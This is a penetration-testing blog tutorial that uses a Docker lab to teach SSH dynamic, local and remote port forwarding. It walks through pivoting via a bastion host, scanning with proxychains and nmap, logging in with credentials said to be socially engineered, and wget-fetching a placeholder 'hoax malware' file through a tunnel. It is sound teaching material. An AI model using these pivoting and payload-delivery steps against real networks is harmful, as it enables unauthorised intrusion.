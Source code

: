 ```yaml
---
layout: post
title:  "Gain access to an internal machine using Port forwarding - Penetration Testing"
date:   2020-08-10 00:00:00 -0400
tags: [intermediate, application, cybersecurity, networking]
excerpt: Set up a penetration testing environment using docker containers in docker networks to learn various types of port forwarding techniques
---
```


Port forwarding is a technique in which a port in one machine is tunneled to a port in another machine. In simple words, a request made to a port `P1` of a machine `M1` is "forwarded" as a request to port `P2` of a machine `M2`.

In the [previous blog](/2020/08/09/gain-access-to-an-internal-machine-using-port-forwarding-setup-experiment-environment.html), we set up the experiment environment which emulated the setup as shown in the following diagram. In this blog, we shall perform the penetration test as we go along learning **port forwarding**.

![Scenario Visual](/assets/img/pivoting/scene.png)
<br/><small style="color: gray">Scenario Visualization</small><br/>

## Recap

You, a penetration tester, have the following information:

* The data center is in `172.17.0.0/16` subnet and the enterprise is in `10.10.10.0/24` subnet.
* The IP address of your machine is `172.17.0.1`.
* The IP address of the network interface of the bastion server facing the data center network is `172.17.0.2`, while the network interface that is facing the enterprise network is `10.10.10.2`.
* The IP address of the internal server is `10.10.10.3`.
* The internal server doesn't have access to the internet. (Somehow)
* The SSH login credentials to the bastion server is `bastion:fortwall` and that of the internal server is `admin:homeportal`.

Your intention is to **place a hoax malware** in the internal server.

_I suggest the readers comprehend the port forwarding terminologies with respect to the machine at the readers' end._

## Recon bastion server

You begin by scanning for open ports in the bastion server, to find out which port serves the SSH service.

![Recon bastion](/assets/img/pivoting/recon.png)

The SSH server is running at **port 2222** of the bastion server and the credentials that you obtained by social engineering works!

## Recon internal server - Dynamic port forwarding

It is time to pivot at the bastion server to recon the internal network (`10.10.10.0/24`). How do you perform reconnaissance on the internal server whose IP address is `10.10.10.3`? You could install nmap and other tools in the bastion server, but that doesn't seem to be stealthy!

You plan to allocate a port in your localhost that tunnels traffic to the bastion server, and the bastion server makes requests on your behalf. This method is known as **Dynamic Port Forwarding**.

```
[localhost]-9050 <-> 2222-[bastion]-bport_any <-> iport_any-[internal_server]
-------> request
<------- response
```

SSH client provides a powerful set of options to execute port forwarding. To execute dynamic port forwarding to communicate with the internal network, run the following command.

```bash
ssh -D 9050 -p2222 -Nf bastion@172.17.0.2
```

`-D` option is used to open a port for dynamic port forwarding. The above command opens port 9050 in localhost and any request to it is forwarded to the bastion which dynamically opens a port for communication.

#### Other options

* `-p`: to specify the port to which SSH request is to be made.
* `-N`: Do not execute any command. (I don't need a shell)
* `-f`: Run SSH in the background.

Further, you configure the proxychains to run nmap through. Open the file `/etc/proxychains.conf` and add the following record (tab-separated) under the `[ProxyList]` section:

```
socks5    127.0.0.1    9050  
```

Now, you perform port scanning on the internal server at `10.10.10.3` through the bastion server at `172.17.0.2`, to find the port that services SSH requests. To do so, you run the following command:

```bash
proxychains nmap -e docker0 -Pn -sT 10.10.10.3
```

`-e` option forces nmap to use a particular interface (`172.17.0.1` in our case)

![Recon through bastion using proxychains](/assets/img/pivoting/recon-bastion.png)

## Log in to internal server - Local port forwarding

Now that you learned that the internal server serves SSH service at port 2222, you decide to log in to the server with the credentials that you have. Since the internal server is in another private network, you plan to port forward the requests made to one of the ports of the network interface reachable to you, to port 2222 of the internal server through the bastion server.

When you want to expose a service in a server to a port of an interface reachable to you, use **Local port Forwarding**.

```
[localhost]-2323 <-> 2222-[bastion]-bport <-> 2222-[internal_server]
-------> request
<------- response
```

To expose SSH service of the internal server on your local machine, run the following command.

```bash
ssh -L 2323:10.10.10.3:2222 -p2222 -Nf bastion@172.17.0.2
```

`-L` option is used to local port forward a request to a remote server. In this case, the request to port 2323 of your machine reaches the internal server at port 2222 through the session with the bastion server. The IP address (i.e. `10.10.10.3`) provided as the value for this option should be reachable by the bastion server.

Thus, by running the following command using the socially engineered credentials, you should be able to login to the internal server.

```bash
ssh -p2323 admin@localhost
```

![Login to internal server by local port forwarding](/assets/img/pivoting/login-internal.png)

## Install the hoax malware - Remote port forwarding

The final step is to install the hoax malware into the internal server. You plan to host an HTTP file server at your end and wget the hoax malware at the internal server. Remember, the internal server has no access to the internet. But, it is able to access all nodes in the enterprise subnet. Hence, you need to expose the HTTP file service running at port 8080 at your end through the bastion server to the internal server at port 8000.

When you want to expose a service running in your machine to a port of an interface reachable to a remote server, use **Remote port Forwarding**.

```
[localhost]-8080 <-> 2222-[bastion]-8000 <-x-> iport-[internal_server]
<------- request
-------> response
```

To expose the HTTP service of your local machine to the internal server through the bastion server, run the following command.

```bash
ssh -R 8000:127.0.0.1:8080 -p2222 -Nf bastion@172.17.0.2
```

`-R` option is used to remote port forward a response to a remote server. In this case, the request to port 8000 of the bastion server reaches your computer at port 8080. The IP address provided as the value for this option should be "assignable" by your computer. (You could also use `localhost` instead of the IP address of your computer. Localhost = localhost for your computer)

In another terminal, you create an empty hoax malware file by the name `hoax_malware` by running `touch hoax_malware` and start the HTTP file server using the following command.

```bash
python3 -m http.server 8080
```

But wait! You realize that remote port forwarding can only go up to the localhost network interface of the bastion server.

![Remote port forwarding to bastion server](/assets/img/pivoting/remote-port-forward.png)

## Remote port forwarding through a port that is forwarded locally

This is not a type of port forwarding, but an attempt to show the power of compounding multiple types of port forwarding techniques. You want to somehow install the hoax malware into the internal server. Your thoughts are going wild and creativity is at its peak. You think "_What if I could remote forward it to the internal server itself? I anyways have SSH access to the internal server through port 2323 of my machine_". Your fingers quickly fidget the following command on your penetration testing machine and you restart the HTTP file server.

```bash
ssh -R 8000:127.0.0.1:8080 -p2323 -Nf admin@localhost
python3 -m http.server 8080
```

And, then switch to the internal server shell terminal and try to download the hoax malware again.

```bash
wget http://localhost:8000/hoax_malware
```

![Compound port forwarding to achieve the desired requirement](/assets/img/pivoting/compound-pf.png)

**Bingo! MISSION ACCOMPLISHED!**

NOTE: There are multiple ways to gain access to the internal server. The intention of this specific series of steps is to learn port forwarding.

## More Port forwarding examples in real life

**Docker**, the well-known containerization platform extensively uses local port forwarding. The `--publish` or `-p` option enables it. The port specified prefixing the colon `:` is the port on the host which is tunneled to the port of the docker container corresponding to the service it is running.

**Ngrok**, a network utility, lets one open one or more ports to the world! Yes, I mean it, the world! I believe it is using remote port forward technique, which exposes the service running at a port in the local machine to the world through the ngrok service's `hostname:port` that pops up on the screen when one runs the ngrok utility.

**Burpsuite**, a web application penetration testing tool uses dynamic port forwarding. Here, the proxy server is the localhost itself. The proxy server typically runs at port 8080. Burpsuite processes and/or stores the request and forwards it to the server the browser is trying to reach. The response, however, comes back to Burpsuite, which forwards it to the browser and eventually gets rendered on the screen.
